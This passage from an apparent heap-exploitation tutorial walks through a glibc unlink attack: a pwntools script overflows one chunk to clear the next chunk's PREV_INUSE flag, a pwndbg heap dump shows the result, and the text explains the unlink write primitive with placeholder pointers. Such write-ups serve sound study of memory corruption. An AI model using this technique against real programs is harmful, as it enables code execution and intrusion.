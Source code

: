 ```python
payload += b'A' * (0x80 - len(payload)) # padding
payload += p64(0x90) # prev_size
payload += p64(0x90) # size (prev_inuse = 0)

edit(chunk_A, payload) # overflow chunk_A into chunk_B's metadata

io.interactive()

```

On running above script with `GDB` argument -

```bash
$ ./exploit.py NOASLR GDB

# Continue in pwndbg window
pwndbg> vis

0x555555603000	0x0000000000000000	0x0000000000000091	................
0x555555603010	0x00000000deadbeef	0x00000000cafebabe	................
0x555555603020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555603090	0x0000000000000090	0x0000000000000090	................
0x5555556030a0	0x0000000000000000	0x0000000000000000	................
0x5555556030b0	0x0000000000000000	0x0000000000000000	................
0x5555556030c0	0x0000000000000000	0x0000000000000000	................
0x5555556030d0	0x0000000000000000	0x0000000000000000	................
0x5555556030e0	0x0000000000000000	0x0000000000000000	................
0x5555556030f0	0x0000000000000000	0x0000000000000000	................
0x555555603100	0x0000000000000000	0x0000000000000000	................
0x555555603110	0x0000000000000000	0x0000000000000000	................
0x555555603120	0x0000000000000000	0x0000000000020ee1	................ <-- Top chunk

```

We can see that we have set `PREV_INUSE` flag of **chunk_B** to 0. When we free chunk B, the allocator detects that the previous chunk (chunk A) is free (due to the cleared `PREV_INUSE` flag), and will attempt to consolidate them. This triggers the unlink operation to remove chunk A from its bin.

We have set our `fd` -> `0xdeadbeef` and `bk` -> `0xcafebabe` in **chunk_A**.

Let's again examine what happens during the **unlink** operation:

```c
// glibc unlink macro (simplified)
#define unlink(P, BK, FD) {            
    FD = P->fd;                         // FD = 0xdeadbeef
    BK = P->bk;                         // BK = 0xcafebabe  
    FD->bk = BK;                        // Write 0xcafebabe to 0xdeadbeef + 0x18
    BK->fd = FD;                        // Write 0xdeadbeef to 0xcafebabe + 0x10
}

```
